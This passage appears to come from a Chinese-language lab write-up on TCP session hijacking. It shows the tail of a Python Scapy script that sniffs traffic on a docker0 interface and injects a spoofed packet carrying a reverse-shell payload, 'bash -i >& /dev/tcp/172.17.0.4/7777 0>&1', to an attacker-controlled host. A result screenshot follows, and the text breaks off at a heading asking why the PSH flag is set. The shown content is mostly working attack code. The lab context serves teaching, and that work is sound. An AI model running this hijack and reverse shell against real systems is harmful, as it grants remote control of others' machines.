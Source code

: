 ~~~python
               dport = old_tcp.dport,
               seq   = old_tcp.seq,
               ack   = old_tcp.ack,
               flags = "AP"
             )
    data = "\bbash -i >& /dev/tcp/172.17.0.4/7777 0>&1\r\n"
    #############################################

    pkt = ip/tcp/data
    send(pkt,verbose=0)
    #ls(pkt)
    quit()
    
   
iface='docker0'
f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, iface=iface,   prn=spoof)


~~~



实现效果如下所示：

![image-20230422182956753](pic\image-20230422182956753.png)





**为什么要设置psh字段**
